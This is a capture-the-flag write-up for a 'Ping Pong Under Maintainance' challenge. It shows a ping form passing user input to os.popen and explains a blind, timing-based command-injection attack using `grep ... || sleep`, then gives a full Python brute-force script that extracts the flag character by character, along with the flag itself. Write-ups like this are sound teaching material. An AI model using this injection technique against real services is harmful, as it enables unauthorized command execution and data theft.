 ## Write Up For Ping Pong Under Maintainance

First check what the difference between
Ping Pong and Ping Pong Under Maintainance

### Ping Pong
```py
return render_template('index.html', output=output)
```

### Ping Pong Under Maintainance
```py
return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```

Notice that the only difference between the two is that Ping Pong Under
Maintainance won't output what the command does

However, the program will still excute the command as seen in these lines

```py
hostname = request.form['hostname']
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This means command injection is still viable
but there must be some other way to get flag information

After a lot of thinking, testing, and failing
I finally found a timing attack

If it is possible to check whether some substring exists in the flag file
then use that change the website reponse time depending on true or false then it would be possible to brute force each character till the flag is found

### The Payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

Using this command can check if some prefix starting with LITCTF{ is in the flag file

$? returns 1 if the text grepped is in the file and 0 if it is not

Testing this command out, a proper prefix such as LITCTF causes the website to respond almost instantly;
however, a string such at ASHJFJSHD would cause the website to take over a second to load

Now that a working explot is found, 
the prefix of the flag can be tested one character at a time


And here is a simple python program to find the flag one char at a time

### Python Script

```py
import requests
import string

#allowed characters in flag
charlist = string.ascii_lowercase+string.digits+"_}"

#known prefix
flag = "LITCTF{"


#changes with every instance
url = 'http://34.130.180.82:59880/'

#headers for POST request
headers = {
    'Host': url,
}


#payload
data = {
    'hostname': 'temp',
}

#loops till we get the flag
while True:
    #correct next character
    bestchr = " "

    #testing each character
    for x in charlist:
        #test prefix
        teststr = flag+x
        #payload
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        #sending request
        req = requests.post(url, headers=headers, data=data)
        #check how long it took
        if req.elapsed.total_seconds() < 1:
            #found the correct char
            bestchr = x
            break
    
    #appending char to flag
    flag+=bestchr
    #prints flag everytime we find the next char
    print(flag)
    #exits ones flag is found
    if(bestchr == '}'): break

```

After a while of using this program
I was able to retrieve the flag

### LITCTF{c4refu1_fr}


# YOUR DID IT :D
